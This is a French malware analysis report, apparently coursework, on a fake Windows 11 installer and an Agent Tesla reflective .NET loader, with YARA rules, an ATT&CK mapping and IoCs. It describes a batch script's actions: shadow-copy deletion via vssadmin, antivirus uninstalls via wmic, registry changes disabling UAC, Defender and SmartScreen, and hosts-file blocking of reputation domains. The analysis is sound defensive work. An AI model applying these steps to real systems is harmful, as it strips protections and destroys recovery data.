{width=100%}

### 9.1 Extraction Inno Setup

L'extraction de l'installateur donne quatre fichiers non graphiques :

| Fichier extrait | Taille | Rôle probable |
|---|---:|---|
| `tmp/au/rp.exe` | 888 600 o | Sordum PowerRun v1.5, copie modifiée avec signature invalide |
| `tmp/au/yb.exe` | 1 145 856 o | Loader packé x64, contient des chaînes .NET |
| `sd/tmp/lfd.cmd` | 8 336 o | Script batch de neutralisation des défenses |
| `app/Windows11InstaIIationAssistant.scr` | 8 773 969 o | Stub VB6 packé avec overlay de 7,5 Mo |

Le `.scr` est le seul binaire installé de façon permanente dans `{app}`. Les trois autres sont extraits en zone temporaire. Le script compilé Inno n'est pas extractible avec `innoextract` 1.9, donc l'ordre exact des entrées `[Run]` reste hypothétique.

### 9.2 `rp.exe` — Sordum PowerRun modifié

Les chaînes UTF-16 internes sont sans ambiguïté :

```
PowerRun:v1.5
PowerRun has been created to run Applications with Elevated Privileges
FILECREATENTFSLINK
```

`rp.exe` est une copie de **Sordum PowerRun v1.5**, outil légitime qui exécute une application avec des privilèges élevés, souvent via le service TrustedInstaller. Le fichier a été renommé `rp.exe` et sa signature est invalide : le digest SHA-1 calculé ne correspond pas à celui qui a été signé. Il ne s'agit donc pas de la copie signée d'origine.

La vérification donne :

```
Message digest algorithm  : SHA1
Current message digest    : 33F817559E331B796402646ED6114AAAFA2B3D73
Calculated message digest : 10A2C035FA894A0B857E7EED461D551C0D73C471     MISMATCH!!!
Failed
```

Le certificat est auto-signé `CN=Sordum Software`, avec un horodatage GlobalSign. La signature ne couvre pas le fichier actuel : soit le binaire a été modifié après signature, soit la signature a été transplantée. Dans les deux cas, elle ne doit pas inspirer confiance.

`rp.exe` importe `OpenSCManagerW`, `CreateProcessAsUserW`, `CreateProcessWithLogonW`, `VirtualAllocEx`, `WriteProcessMemory` et des API réseau WinINet. Ce sont des capacités d'élévation, d'injection et de téléchargement, mais je n'ai pas observé leur utilisation. Le rôle le plus probable dans cette chaîne est l'exécution élevée de `yb.exe` ou du `.scr`.

### 9.3 `yb.exe` — loader packé

`yb.exe` est un PE32+ x64 de 1 145 856 octets, avec 9 sections aux noms aléatoires. Six sections ont `RawSize = 0`. Une seule section de données, `oS%n6\>p`, contient `0x117200` octets avec une entropie de 7.84. Le point d'entrée est à `0x1F38DA` et commence par `E9 0B BF FF FF`, un `jmp` vers l'arrière.

L'IAT est minimale : `LoadLibraryA`, `GetProcAddress`, `LocalAlloc`, `RaiseException`, `ShowWindow`, `CoInitializeEx`. Les chaînes .NET dans la zone packée (`mscoree.dll`, `api-ms-win-core-synch-l1-2-0`, noms de jours/mois) suggèrent que la charge utile est un assembly .NET. Je ne l'ai pas décompressée, donc je ne peux pas confirmer son rôle exact.

### 9.4 `Windows11InstaIIationAssistant.scr` — stub VB6 avec overlay

Le `.scr` est un PE32 de 8 773 969 octets, avec 7 sections aux noms aléatoires et 5 sections à `RawSize = 0`. La section de données `>R-n.<kD` fait `0x134000` octets avec une entropie de 7.81. Le point d'entrée est à `0x29C02E` et commence par `E9 21 B2 FF FF`.

Il importe `mSvbVm60.dll` (ordinal 516) et `MessageBoxW`, ce qui indique un stub VB6. L'overlay fait **7 510 865 octets**, avec une entropie de 8.0 et le marqueur ASCII `GoodMorning`. Aucun PE valide n'est directement visible dans cet overlay.

Le nom du fichier utilise deux « I » majuscules (`InstaIIation`) pour imiter `Installation`. C'est un détail de masquage classique. Le rôle exact du `.scr` (payload final, leurre, persistance) n'est pas confirmé.

### 9.5 `lfd.cmd` — neutralisation des défenses

Le script est un fichier ASCII avec BOM UTF-16LE et casse aléatoire. Il effectue plusieurs catégories d'actions :

| Catégorie | Actions |
|---|---|
| UAC | `ConsentPromptBehaviorAdmin = 0`, `ConsentPromptBehaviorUser = 0`, `PromptOnSecureDesktop = 0` |
| Defender | `SubmitSamplesConsent = 2`, `SpyNetReporting = 0`, `PUAProtection = 0`, `MpEnablePus = 0` |
| Notifications | `DisableEnhancedNotifications = 1`, `UILockdown = 1`, `FilesBlockedNotificationDisabled = 1`, `NoActionNotificationDisabled = 1`, `SummaryNotificationDisabled = 1` |
| SmartScreen | `EnableSmartScreen = 0`, `SmartScreenEnabled = OFF` |
| Centre de notifications | `DisableNotificationCenter = 1`, `ToastEnabled = 0` |
| MOTW | `SaveZoneInformation = 1`, `ScanWithAntiVirus = 1` (HKLM et HKCU) |
| Restauration | `DisableConfig = 1`, `DisableSR = 1` |
| DNS | 19 domaines ajoutés en `0.0.0.0` dans le fichier hosts |
| Destruction | `vssadmin delete shadows /all /quiet` |
| Antivirus | `wmic product ... call uninstall` pour ESET, Emsisoft, Malwarebytes |
| Nettoyage | `del %0` |

Les domaines bloqués concernent surtout SmartScreen et Google Safe Browsing :

```
checkappexec.microsoft.com
smartscreen-prod.microsoft.com
nav.smartscreen.microsoft.com
nf.smartscreen.microsoft.com
safebrowsing.googleapis.com
ars.smartscreen.microsoft.com
apprep.smartscreen.microsoft.com
c.urs.microsoft.com
feedback.smartscreen.microsoft.com
ping.nav.smartscreen.microsoft.com
ping.nf.smartscreen.microsoft.com
t.nav.smartscreen.microsoft.com
t.nf.smartscreen.microsoft.com
t.urs.microsoft.com
unitedstates.smartscreen.microsoft.com
unitedstates.smartscreen-prod.microsoft.com
urs.microsoft.com
urs.smartscreen.microsoft.com
slscr.update.microsoft.com
```

Le script doit être exécuté en administrateur, puisqu'il écrit dans HKLM. Il ne s'agit pas de persistance : il supprime une valeur `Run` d'Emsisoft, ce qui est une action de neutralisation, pas d'auto-démarrage.

### 9.6 Agent Tesla — chargement réflexif

Le désassemblage avec `monodis` montre la chaîne suivante dans `Program.Main` :

```
Program.Main (RVA 0x2050, token 0x06000001)
  → new EnterpriseDashboardView()
    → InitializeComponent()
      → ResourceManager.GetObject("Sikl")            // Bitmap
      → TransducerExtractor.Transduce(bitmap, 127488)
      → Enumerable.ToArray<byte>()
      → typeof(Assembly).InvokeMember("Load", BindingFlags.InvokeMethod, null, null, new object[]{ bytes })
      → Assembly.GetExportedTypes()[0]
      → Regex.Split(_myStudio, "_-_")                 // tokens [4], [5], [3]
      → Activator.CreateInstance(type, new object[]{ "4763664E", "7A7168", "TerraGenEnterprise" })
```

Le nom de méthode `"Load"` est construit par concaténation (`"L" + "oad"`) pour éviter une chaîne évidente. La chaîne `_myStudio` vaut `_-__-__-_TerraGenEnterprise_-_4763664E_-_7A7168`. Son split sur `_-_` produit six jetons : trois chaînes vides, puis `TerraGenEnterprise`, `4763664E` et `7A7168` ; le loader utilise les indices 4, 5 et 3.

`Transduce` (RVA `0x2D54C`, taille `0x7D1`) retourne `List<byte>` et prend `(Bitmap tape, int outputBound)`. La boucle finale fait, pour chaque pixel, `GetPixel(x, y)` puis ajoute `R`, `G`, `B` jusqu'à atteindre `outputBound = 127488`. Les structures `union-find`, `trie`, `bloomFilter` et `sortNet` présentes dans la méthode sont du bruit : elles compliquent la lecture mais n'affectent pas les octets produits.

J'ai reconstruit le payload en appelant la vraie méthode `Transduce` sous Mono, après extraction des flux `.mresource` avec `ResourceReader.GetResourceData`. Le fichier obtenu commence par `4D 5A 90 00` et est un PE valide. Une réimplémentation Python du parcours des pixels a donné des octets différents (ordre/canal), ce qui confirme que l'appel à la méthode réelle est la source de vérité.

| Propriété du stage 2 | Valeur |
|---|---|
| Taille | 127 488 o |
| Type | PE32, .NET DLL |
| Sections | `.text` 5.85, `.rsrc` 2.58, `.reloc` 0.08 |
| Horodatage | 2026-08-17 02:04:16 UTC |
| Assembly | `System Cleaner Pro`, version `11.2.6.0` |
| Module | `System Cleaner Pro.dll`, GUID `{AAA3C01F-E6C5-49C1-A64F-A207B53CAF64}` |
| P/Invoke | `LoadLibrary` et `GetProcAddress` (kernel32) |
| Références | `mscorlib 2.0`, `System.Windows.Forms 2.0`, `System 2.0`, `System.Drawing 2.0`, `Microsoft.VisualBasic 8.0`, **`mscorlib 65535.65535.65535.65535`** (entrée corrompue) |

`monodis --assembly` permet de lire l'assembly, mais le désassemblage complet s'arrête sur une assertion de métadonnées (`index < meta->heap_blob.size`) à cause de la référence `mscorlib` invalide. Les noms de types/méthodes sont en Unicode obfusqué (style ConfuserEx). L'assembly importe `Microsoft.VisualBasic`, ce qui suggère du code VB.NET obfusqué. Aucune chaîne de type clé de registre, URL ou commande n'est lisible directement.

Le stage 2 est chargé uniquement en mémoire. Le loader n'écrit pas le PE sur disque, ce qui complique la collecte post-mortem : il faut une capture mémoire pour retrouver le payload.

---

## Étape 10 — Règle YARA

{width=100%}

### 10.1 Règle d'origine

La règle fournie est volontairement simple :

```yara
rule Windows_Malware_PE_TP
{
    meta:
        description = "Detection d'un executable PE suspect"
        author = "Chikhaoui Youcef Chihab Eddine"
        date = "2026-10-20"
    strings:
        $pe_header = { 4D 5A }
        $cmd1 = "cmd.exe" ascii wide nocase
        $cmd2 = "powershell" ascii wide nocase
        $api1 = "VirtualAlloc" ascii wide
        $api2 = "CreateRemoteThread" ascii wide
    condition:
        $pe_header at 0 and
        2 of ($cmd*, $api*)
}
```

### 10.2 Résultats du test

Avec YARA 4.5.2, aucun fichier ne matche :

| Fichier | Résultat |
|---|---|
| `windows11-setup_11_45288.exe` | aucun match |
| `agentTesla.exe` | aucun match |
| `rp.exe` | aucun match |
| `yb.exe` | aucun match |
| `Windows11InstaIIationAssistant.scr` | aucun match |
| `agentTesla_stage2.dll` | aucun match |

La règle échoue pour plusieurs raisons :

- elle exige **2 chaînes parmi 4** ;
- l'installateur et `rp.exe` ne contiennent que `VirtualAlloc` (1 chaîne) ;
- `agentTesla.exe`, `yb.exe`, `.scr` et `stage2` ne contiennent aucune des quatre chaînes ;
- elle ne cible pas les indicateurs réels : Inno Setup, ressources bitmap, reflection, PowerRun, overlay `GoodMorning`.

### 10.3 Règles améliorées

J'ai écrit cinq règles, chacune ciblant un fichier précis :

| Règle | Fichier ciblé | Indicateurs |
|---|---|---|
| `Fake_Win11_Inno_Dropper` | installateur | `This installation was built with Inno Setup`, `Microsoft Corporation`, `Windows11InstallationAssistant`, `zlb`, taille > 5 Mo |
| `AgentTesla_Resource_Loader` | `agentTesla.exe` | `TransducerExtractor`, `InvokeMember`, `Sikl`, `_myStudio`, `TerraGenEnterprise`, `GetExportedTypes` |
| `HackTool_Win_PowerRun` | `rp.exe` | `PowerRun:v1.5`, `PowerRun has been created...`, `Sordum Software` |
| `Packed_VB6_Scr_Overlay` | `.scr` | `GoodMorning`, `mSvbVm60.dLl`, taille > 5 Mo |
| `Packed_Yb_MSIL_Loader` | `yb.exe` | `mscoree.dll`, `api-ms-win-core-synch-l1-2-0`, taille < 2 Mo |

Les résultats sont conformes :

| Fichier | Règle améliorée |
|---|---|
| `windows11-setup_11_45288.exe` | `Fake_Win11_Inno_Dropper` |
| `agentTesla.exe` | `AgentTesla_Resource_Loader` |
| `rp.exe` | `HackTool_Win_PowerRun` |
| `yb.exe` | `Packed_Yb_MSIL_Loader` |
| `Windows11InstaIIationAssistant.scr` | `Packed_VB6_Scr_Overlay` |
| `agentTesla_stage2.dll` | aucun match (normal : pas de chaîne distinctive) |

Le code complet des règles est en annexe A. La règle `HackTool_Win_PowerRun` détecte un outil légitime détourné ; elle doit servir au contexte ou à la chasse, pas comme preuve autonome de malware.

---

## Étape 11 — Call graph

{width=100%}

### 11.1 Installateur A

Commande :

```bash
rizin -q -e scr.color=0 -c 'aa; s entry0; agC' windows11-setup_11_45288.exe
```

Graphe simplifié :



Le graphe est celui du loader Inno Setup/Delphi. Les fonctions de haut niveau appellent de nombreuses routines d'initialisation ; aucune ne contient les payloads, qui sont dans l'overlay compressé. L'analyse du call graph natif est donc peu informative pour cet échantillon. L'extraction Inno est la voie utile.

### 11.2 Agent Tesla B



Le graphe est volontairement simple, mais chaque étape est masquée : nom de méthode `"Load"` reconstruit, ressource bitmap, extraction pixel par pixel, chargement réflexif, arguments de constructeur cachés dans une chaîne. C'est un loader .NET conforme au mode de chargement observé dans les variantes Agent Tesla.

---

## Étape 12 — Persistance

{width=100%}

| Mécanisme | Preuve | Statut |
|---|---|---|
| Fichier `.scr` installé dans `{app}` | `innoextract` : `app/Windows11InstaIIationAssistant.scr` | **Observé** (fichier sur disque) |
| Exécution via `[Run]` Inno Setup | script compilé non extractible | **Suspecté** |
| Fichiers temporaires `rp.exe`, `yb.exe`, `lfd.cmd` | `innoextract` : `tmp/au/`, `sd/tmp/` | **Observé** (fichiers temp) |
| Clé `Run` / `RunOnce` | aucune création en clair | **Non observé** |
| Service Windows | `rp.exe` importe `OpenSCManagerW` (capacité PowerRun) | **Non observé** |
| Tâche planifiée | aucune commande `schtasks` | **Non observé** |
| Agent Tesla | chargement en mémoire, pas d'écriture disque | **Non observé** |

Le `.scr` est le seul exécutable installé de façon permanente. Un screensaver n'est pas lancé automatiquement au démarrage par défaut ; sans entrée `[Run]`, clé `Run` ou tâche planifiée, il ne constitue pas une persistance autonome. Le script `lfd.cmd` **supprime** une valeur `Run` d'Emsisoft : ce n'est pas de la persistance, mais de la neutralisation d'un antivirus. `rp.exe` (PowerRun) utilise des API de service (`OpenSCManagerW`) pour exécuter des programmes avec des privilèges élevés ; cela peut servir à l'élévation, pas nécessairement à la persistance.

Le stage 2 Agent Tesla est chargé en mémoire ; une persistance pourrait être créée par son code obfusqué, mais elle n'est pas visible statiquement. En conclusion, la persistance n'est **pas démontrée** par l'analyse statique. Il faudrait une analyse dynamique (Procmon, Autoruns, surveillance du registre et des services) pour confirmer l'ordre d'exécution et un éventuel auto-démarrage.

---

## Étape 13 — Anti-VM, anti-debug et évasion

{width=100%}

| Technique | Preuve | Interprétation |
|---|---|---|
| Packing | `yb.exe` (entropie 7.84, sections vides), `.scr` (7.81 + overlay 8.0) | Évasion statique |
| Obfuscation .NET | 736 méthodes, 250 `Thread.Sleep`, classes leurres, réflexion | Évasion statique |
| Métadonnées corrompues | `stage2` : `mscorlib 65535`, `monodis` s'arrête | Anti-RE |
| Horodatages | `agentTesla` 2026-08-19, `stage2` 2026-08-17, `.scr` 0 | Horodatages suspects (`.scr` à 0), possible timestomping |
| Anti-debug | `rp.exe` : `IsDebuggerPresent`, `OutputDebugStringW`, `QueryPerformanceCounter`, `GetTickCount` | Capacité (outil légitime) |
| Anti-VM explicite | aucune chaîne `VBox`, `VMware`, `QEMU`, `SbieDll`, etc. | **Non observé** |
| Délais | 250 `Thread.Sleep` dans l'IL | Bruit/obfuscation, éventuel délai anti-sandbox |
| Neutralisation des défenses | `lfd.cmd` : UAC, Defender, SmartScreen, hosts, vssadmin, AV | **Observé** |
| Contournement MOTW | `SaveZoneInformation = 1` | **Observé** |
| Casse aléatoire + BOM | `lfd.cmd` | Évasion des signatures textuelles |

L'évasion est surtout **statique** (packing, obfuscation, horodatages suspects) et **défensive** (désactivation des protections). Je n'ai pas trouvé de détection de VM explicite dans les chaînes ou les imports. Les 250 `Thread.Sleep` peuvent être du code factice généré par l'obfuscateur ; ils ne suffisent pas à conclure à une évasion temporelle. Le script `lfd.cmd` est plus concret : il désactive UAC, Defender, SmartScreen, la restauration système, bloque 19 domaines de réputation et désinstalle plusieurs antivirus.

Le fichier `lfd.cmd` est annoncé par `file` comme `Unicode text, UTF-16, little-endian`, alors que le contenu après le BOM est en ASCII. C'est le BOM `FF FE` qui trompe l'outil. Un simple `tail -c +3` ou `grep -a` permet de lire le script. Cette combinaison BOM + casse aléatoire est une petite astuce d'évasion, mais elle ne résiste pas à une analyse attentive.

---

## Étape 14 — Mapping MITRE ATT&CK

{width=100%}

`capa` reconnaît un binaire `dotnet` et relève notamment :

```
ATT&CK Tactic   ATT&CK Technique
DEFENSE EVASION Reflective Code Loading [T1620]

MBC Objective   MBC Behavior
DISCOVERY       Analysis Tool Discovery: Process detection [B0013.001]
PROCESS         Suspend Thread [C0055]
```

Il identifie aussi `invoke .NET assembly method`, `compiled to the .NET platform`, `access .NET resource` et `suspend thread (250 matches)`. Ces résultats confirment le chargement réflexif et l'utilisation de ressources .NET, mais le mapping complet reste manuel.

Légende : **Observé** = preuve directe ; **Capacité** = API/import présente mais usage non confirmé ; **Probable** = inférence contextuelle.

| ID | Technique | Preuve | Statut |
|---|---|---|---|
| T1204.002 | User Execution: Malicious File | Faux installateur destiné à être exécuté par l'utilisateur | Probable (contexte) |
| T1036.005 | Masquerading: Match Legitimate Name or Location | « Windows 11 », « Microsoft Corporation », `.scr` imitant le nom | Observé |
| T1027 | Obfuscated Files or Information | Packing, casse aléatoire, BOM, obfuscation .NET | Observé |
| T1027.009 | Embedded Payloads | Overlay Inno, bitmap `Sikl`, overlay `.scr` | Observé |
| T1140 | Deobfuscate/Decode Files or Information | `Transduce`, stubs de packer | Observé |
| T1620 | Reflective Code Loading | `Assembly.Load(byte[])` + `CreateInstance` | Observé |
| T1622 | Debugger Evasion | `IsDebuggerPresent`, `OutputDebugStringW` (rp.exe) | Capacité |
| T1497.003 | Virtualization/Sandbox Evasion: Time Based Evasion | 250 `Thread.Sleep` | Probable (faible) |
| T1562.001 | Impair Defenses: Disable or Modify Tools | Defender, SmartScreen, désinstallation AV | Observé |
| T1562.006 | Indicator Blocking | Hosts (19 domaines), notifications | Observé |
| T1112 | Modify Registry | Nombreuses clés UAC/Defender/SmartScreen | Observé |
| T1490 | Inhibit System Recovery | `vssadmin delete shadows`, `DisableSR` | Observé |
| T1553.002 | Subvert Trust Controls: Code Signing | Signature invalide sur `rp.exe` | Observé |
| T1553.005 | Subvert Trust Controls: Mark-of-the-Web Bypass | `SaveZoneInformation = 1` | Observé |
| T1548.002 | Abuse Elevation Control Mechanism: Bypass UAC | `ConsentPromptBehaviorAdmin = 0`, PowerRun | Observé/Probable |
| T1059.003 | Command and Scripting Interpreter: Windows Command Shell | `lfd.cmd` | Observé |
| T1047 | Windows Management Instrumentation | `wmic product ... call uninstall` | Observé |
| T1518.001 | Security Software Discovery | `wmic product` ciblant les AV | Observé |
| T1070.004 | Indicator Removal: File Deletion | `del %0` | Observé |
| T1070.006 | Indicator Removal: Timestomp | Horodatages suspects (`.scr` à 0, dates de compilation récentes) | Probable |

**Techniques non observées :** `T1547.001` (Run keys), `T1053.005` (tâches planifiées), `T1056.001` (keylogging), `T1113` (capture d'écran), `T1041` (exfiltration C2). Elles ne doivent pas être affirmées sans analyse dynamique.

---

## Étape 15 — Indicateurs de compromission (IoC)

{width=100%}

### 15.1 Hachages

| Fichier | SHA-256 |
|---|---|
| `windows11-setup_11_45288.exe` | `bda5bd9df17bef6b97dfafa16a73d0a690b7b0548ee74e5cccb13a9d73b18877` |
| `agentTesla.exe` | `27d59d2d36b35f55633fcae515720dfddabaad7984e6dae75343002d242ba0b3` |
| `rp.exe` | `73b99bb8357de2e6667860d0fa9a554db1a55c169e63b689fae6a1c65faa6232` |
| `yb.exe` | `b26c08f408692cbfe55a10a9097e2cea37f942f23e2ad9a51c978cdd2c9c95e9` |
| `.scr` | `b197522d218e972e8fe965032f47ec4e483b698709ac83640f1583feb5a67fb4` |
| `lfd.cmd` | `12ae9141c0b8c1c98b71bc1923b7cf4b94b3bfd53b648149ad59837a42cbb07d` |
| `stage2` | `5655d667e4c9c096a3cc0735c614158f9cbcd53226c7a71e6c504be4371a57c4` |

### 15.2 Fichiers et chemins

| Type | Valeur |
|---|---|
| Installateur | `windows11-setup_11_45288.exe` |
| Payload temporaire | `%TEMP%\au\rp.exe` |
| Payload temporaire | `%TEMP%\au\yb.exe` |
| Script | `%SystemDrive%\tmp\lfd.cmd` (`sd/tmp/lfd.cmd` dans l'archive) |
| Fichier installé | `{app}\Windows11InstaIIationAssistant.scr` |
| Fichier modifié | `%windir%\System32\drivers\etc\hosts` |
| Charge mémoire | PE reconstruit `stage2` (pas de fichier disque) |

### 15.3 Registre

| Clé / valeur | Effet |
|---|---|
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System` : `ConsentPromptBehaviorAdmin=0`, `ConsentPromptBehaviorUser=0`, `PromptOnSecureDesktop=0` | Désactive les invites UAC |
| `HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet` : `SubmitSamplesConsent=2`, `SpyNetReporting=0` | Réduit la télémétrie Defender |
| `HKLM\SOFTWARE\Policies\Microsoft\Windows Defender` : `PUAProtection=0` | Désactive la protection PUA |
